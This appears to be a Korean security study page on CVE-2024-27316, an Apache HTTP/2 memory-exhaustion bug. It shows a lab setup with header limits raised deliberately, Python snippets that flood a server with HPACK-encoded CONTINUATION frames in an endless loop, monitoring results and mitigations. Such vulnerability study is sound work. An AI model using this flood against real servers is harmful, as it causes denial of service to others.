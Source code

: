 ```yaml
---
layout: default
title: cve-2024-27316
category: "Apache"
nav_order: 1
parent: cve
---
```


# CVE-2024-27316
{: .no_toc }

Apache 서버 메모리 고갈 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
HTTP/2 프로토콜에서 사용자가 제한을 초과하는 헤더를 지속적으로 전송할 때 nghttp2 라이브러리가 이를 임시로 메모리에 버퍼링하여 메모리 고갈을 초래할 수 있는 취약점

## 1.2 취약 대상
Apache HTTP Server 2.4.17 ~ 2.4.58 버전

## 1.3 공격 원리
- Apache Server에서 일정 크기를 초과하는 헤더에 대해 HTTP 413 응답을 생성 
- 초과된 헤더는 HPACK으로 압축된 후 nghttp2 라이브러리 내부의 메모리 버퍼에 임시로 저장
- 저장된 헤더는 다음 패킷이 처리될 때까지 유지
- 공격자는 이 취약점을 악용하여 서버에 지속적으로 초과된 길이의 HTTP/2 헤더를 전송 
- 서버는 메모리 소진으로 인해 서비스 중단 
![](../../assets/images/cve-2024-27316/attack.png)

---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows11 (IP: 192.168.9.1) <br>

Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
sudo apt install apache2=2.4.52*
sudo apt install libnghttp2-dev

sudo a2enmod ssl
sudo a2enmod http2
sudo a2ensite default-ssl
sudo ufw allow 80/tcp
sudo ufw allow 8080/tcp
sudo ufw allow 443/tcp
sudo ufw enable

sudo systemctl restart apache2

sudo vi /etc/apache2/sites-available/default-ssl.conf

## default-ssl.conf 설정 - [HTTP2, HTTP 1.1 프로토콜 사용]
<IfModule mod_ssl.c>
    <VirtualHost _default_:443>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        SSLEngine on
        SSLCertificateFile /etc/ssl/certs/apache-selfsigned.crt
        SSLCertificateKeyFile /etc/ssl/private/apache-selfsigned.key

        <FilesMatch "\.(cgi|shtml|phtml|php)$">
            SSLOptions +StdEnvVars
        </FilesMatch>
        <Directory /usr/lib/cgi-bin>
            SSLOptions +StdEnvVars
        </Directory>

        Protocols h2 http/1.1
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
</IfModule>

sudo systemctl restart apache2

sudo vi /etc/apache2/apache2.conf

## apache2.conf 설정 - 취약점 설정[requests 헤더 사이즈에 대한 limit를 늘림]
LimitRequestFieldSize 16384
LimitRequestFields 1000
```

<br>구현 된 홈페이지 (192.168.56.1:443)
![](../../assets/images/cve-2024-27316/homepage.PNG)

---

## 1.5 공격 재현
Python Version : 3.12.3 <br>
Module : hpack, threading, hyperframe, socket, ssl, multiprocessing <br>

### import 추가 
{: .no_toc }

```py
from hpack import Encoder
import threading
from hyperframe.frame import HeadersFrame, ContinuationFrame, SettingsFrame, WindowUpdateFrame
import socket
import ssl
from multiprocessing import Process, current_process
```

### hpack을 사용하여 header 크기 압축 
{: .no_toc }

```py
def hpack_header(i):
    encoder = Encoder()
    name = f'ssssssssssssssssssssshhhhhhhhhhhhhhhhhhhhhhhwwwwwwwwwwwwwwwwwshwshwssssssssshhhhhhhhhhhwwwwwwwwwwww{i}'
    value = f'03310331033198989803319898033198980331998980331033103310331989898033198980331989803319989803319898{i}'
    headers = [(name, value)]
    encoded_headers = encoder.encode(headers)
    return encoded_headers
```

### HTTP/2 프레임 반복 생성 후 전송
{: .no_toc }

```py
    i = 0
    while True:
        continuation_frame = ContinuationFrame(1)
        continuation_frame.data = hpack_header(i)
        continuation_frame.flags.add('END_HEADERS')
        sock.sendall(continuation_frame.serialize())
        i += 1
```

---

## 1.6 Apache 서버 DoS 공격 전후 시스템 상태 분석
Apache2 시스템 상태 모니터링

```bash
htop -p $(pgrep apache2 | tr '\n' ',')
```

<br>DoS 공격 실행 전, CPU, 메모리 사용량이 안정적으로 유지 (Mem : 475M)
![](../../assets/images/cve-2024-27316/Dos-before.png)

<br>DoS 공격으로 인해 CPU, 메모리 사용량이 증가 (Mem : 504M)
![](../../assets/images/cve-2024-27316/Dos-after.png)

<br>지속적인 공격이나 높은 부하로 인해 서버의 자원이 고갈되면 프로세스가 비정상적으로 종료
![](../../assets/images/cve-2024-27316/result.png)

---

## 1.7 대응 방안
- Apache HTTP Server 버전 2.4.59 이상으로 업데이트
- nghttp2 라이브러리의 메모리 관리 로직 개선
- HTTP/2 프로토콜을 비활성화

--- 

## 1.8 참고 자료
- <a href="https://github.com/aeyesec/CVE-2024-27316_poc" target="_blank">PoC - Apache</a> <br>
- <a href="https://github.com/lockness-Ko/CVE-2024-27316" target="_blank">PoC - DoS</a>

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-27316
[Apache]: https://httpd.apache.org/security/vulnerabilities_24.html
